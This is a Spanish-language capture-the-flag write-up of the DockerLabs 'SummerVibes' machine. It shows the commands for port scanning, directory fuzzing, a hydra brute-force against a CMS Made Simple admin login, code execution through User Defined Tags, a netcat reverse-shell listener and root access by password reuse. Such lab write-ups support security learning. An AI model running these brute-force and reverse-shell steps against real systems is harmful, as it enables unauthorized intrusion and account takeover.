 ```yaml
---
layout: post
title: "DockerLabs - SummerVibes (hard)"
categories: DockerLabs/machines/hard
---
```


<p align="center">
<img src="/assets/DockerLabs/SummerVibes/1.png">
</p>

- Esta Máquina es de la plataforma de DockerLabs <https://dockerlabs.es/> en mi opinión es fácil pero esta catalogada como difícil.

## PortScan

```bash
❯ sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 00:52 CST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
|_  256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

- Estas son las tecnologías que esta usando la pagina web.

```ruby
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Apache2 Ubuntu Default Page: It works]
```

- Esta es la página web.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/2.png">
</p>

- Vamos hacer `Fuzzing` para buscar alguna ruta interesante.

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 275]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```

- Si analizamos el código fuente de la pagina web encontramos esto que es interesante.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/3.png">
</p>

- Vemos que tenemos un `CMS` <https://www.cmsmadesimple.org/>.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/4.png">
</p>

- Aquí podemos ver la versión.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/5.png">
</p>

- Tenemos varias rutas.

```bash
❯ gobuster dir -u http://172.17.0.2/cmsms -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cmsms
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/modules/]
/uploads              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/uploads/]
/doc                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/doc/]
/admin                (Status: 301) [Size: 314] [--> http://172.17.0.2/cmsms/admin/]
/assets               (Status: 301) [Size: 315] [--> http://172.17.0.2/cmsms/assets/]
/lib                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/lib/]
/tmp                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/tmp/]
```

- Encontramos un panel de login.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/6.png">
</p>

- Vemos que el username por defecto es admin pero no sabemos la contraseña podemos hacer un ataque de fuerza bruta al panel para ver si la contraseña esta en algún diccionario <https://sitemagic.org/sites/cms-guide/How-to-log-in.html#:~:text=The%20default%20username%20is%20admin,password%20immediately%20after%20log%20in!>.

- Capturamos la petición para ver como se tramita la petición.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/7.png">
</p>

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/cmsms/admin/login.php:username=^USER^&password=^PASS^&&loginsubmit=Submit:User name or password incorrect" -VI
```

- Después de varios intentos encontramos las credenciales.

```bash
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
```

- Podemos entrar.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/8.png">
</p>

## Shell as www-data

- Si buscamos por vulnerabilidades encontramos la siguiente <https://github.com/capture0x/CMSMadeSimple> la versión que esta usando es vulnerable a Remote Code Execution. 

- Nos dan los pasos para explotar la vulnerabilidad en este caso tenemos que ir a User Defined Tags.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/9.png">
</p>

- Vamos a darle en Add.

- Vamos a comprobar que se ejecutan los comandos.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/10.png">
</p>

- Ahora le damos click al tag y le damos en RUN.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/11.png">
</p>

- Y funciona.

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/12.png">
</p>

- Ahora nos vamos a enviar una reverse shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/DockerLabs/SummerVibes/14.png">
</p>

> Hay que poner un nombre bien el de la imagen te dará error -> RUN.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.65] from (UNKNOWN) [172.17.0.2] 49072
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fc2f986ff0d9:/var/www/html/cmsms/admin$ script /dev/null -c bash
CTRL+Z
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@fc2f986ff0d9:/var/www/html/cmsms/admin$ export TERM=xterm
```

## Escalada de privilegios

- Bueno al parecer después de enumerar root usa la contraseña chocolate que encontramos al principio.

```bash
www-data@fc2f986ff0d9:/$ su root
Password: 
root@fc2f986ff0d9:/#
```
